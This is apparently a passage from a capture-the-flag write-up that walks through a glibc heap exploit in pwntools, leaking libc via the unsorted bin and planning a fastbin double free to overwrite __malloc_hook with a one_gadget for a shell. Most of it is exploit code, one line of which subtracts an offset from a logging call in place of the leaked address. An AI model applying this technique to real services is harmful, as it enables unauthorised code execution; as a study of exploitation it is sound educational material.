 ```py
    free(4)

    #Add chunk number 10
    add(0x10,'\x78') #Chunk 10, returned from unsorted bin having fd and bk as libc

    #Finally free it to print libc 
    free(10)
    reu('will free: ')
    libc_base = u64(re(6) + '\x00'*2)
    log.info('libc_base @ ' + hex(libc_base)) - 0x3c4b78
    gdb.attach(io)
    io.interactive()

```

Phew! ,Getting libc was a little tideous , but now we can do the same and get a fastbin of 0x70 size chunk to overwrite **malloc\_hook** with **one\_gadget**.

I changed the script a little bit due to a lot of reasons , one of them being running out of allocations.

So now the plan is to  fake two 0x71 fastbins so that we can double free yet again and write to the misaligned region near our beloved **\__malloc\_hook** and finally get shell.

Also note that I used double free as a medium of calling malloc as the constraints of **one\_gadget** were not satisfying in normal malloc call.

Here's the script by the way.

```py
from pwn import *
import sys

HOST = '172.35.29.41'
PORT = 9999

if(len(sys.argv)>1):
    io=remote(HOST,PORT)
    context.noptrace=True
else:
    io=process('./pwn',env = {"LD_PRELOAD" : "./libc.so.6"})

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)
s = lambda a : io.send(a)

def add(size,note):
    io.sendlineafter("Choice >>","1")
    io.sendlineafter("Size:",str(size))
    io.sendafter("Note:",str(note))

def free(idx):
    io.sendlineafter("Choice >>","2")
    io.sendlineafter("Index:",str(idx))

if __name__=="__main__":
    add(0x70,'0'*0x60 + p64(0) + p64(0x21))
    add(0x70,'1'*0x40 + p64(0) + p64(0x71) + '1'*0x10  + p64(0) + p64(0x21))
    add(0x90,p64(0) + p64(0x71) + '2'*0x30 + p64(0) + p64(0x71) + p64(0) + p64(0x21))
    #add(0x90,'3'*0x10 + p64(0) + p64(0xe1) + '1'*0x20 + p64(0) + p64(0x71))
    add(0xd0,'3333')
    free(1)
```